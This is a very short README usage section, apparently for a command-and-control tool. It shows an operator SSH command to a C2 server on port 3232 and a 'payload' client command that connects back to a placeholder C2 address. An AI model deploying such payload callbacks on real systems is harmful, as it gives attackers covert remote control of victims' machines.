 # Usage

## Operator

```
$ ssh -i /path/to/ssh_key -p 3232 <C2_IP>
```

## Payload

```
> client -d <C2_IP>:3232
```